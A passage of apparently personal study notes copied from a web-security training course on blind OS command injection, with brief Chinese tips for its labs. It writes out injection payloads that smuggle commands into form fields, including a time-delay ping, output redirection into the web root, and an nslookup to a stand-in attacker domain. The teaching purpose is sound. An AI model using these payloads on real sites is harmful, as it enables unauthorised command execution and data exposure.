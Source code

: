 ```
 mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
```

The output from the `mail` command (if any) is not returned in the application's responses, and so using the `echo` payload would not be effective. In this situation, you can use a variety of other techniques to detect and exploit a vulnerability.

> 最后通过?filename=xxx读取

#### Detecting blind OS command injection using time delays

You can use an injected command that will trigger a time delay, allowing you to confirm that the command was executed based on the time that the application takes to respond. The `ping` command is an effective way to do this, as it lets you specify the number of ICMP packets to send, and therefore the time taken for the command to run:

```
 & ping -c 10 127.0.0.1 &
```

This command will cause the application to ping its loopback network adapter for 10 seconds.

**LAB**

[Blind OS command injection with time delays](https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays)

> 注意+号在burp中已经是空格的意思，不要对其进行url编码，否则命令会执行失败。

#### Exploiting blind OS command injection by redirecting output

You can redirect the output from the injected command into a file within the web root that you can then retrieve using the browser. For example, if the application serves static resources from the filesystem location `/var/www/static`, then you can submit the following input:

```
 & whoami > /var/www/static/whoami.txt &
```

The `>` character sends the output from the `whoami` command to the specified file. You can then use the browser to fetch `https://vulnerable-website.com/whoami.txt` to retrieve the file, and view the output from the injected command.

**LAB**

[Blind OS command injection with output redirection](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection)

#### Exploiting blind OS command injection using out-of-band ([OAST](https://portswigger.net/burp/application-security-testing/oast)) techniques

You can use an injected command that will trigger an out-of-band network interaction with a system that you control, using OAST techniques. For example:

```
& nslookup kgji2ohoyw.web-attacker.com &
```
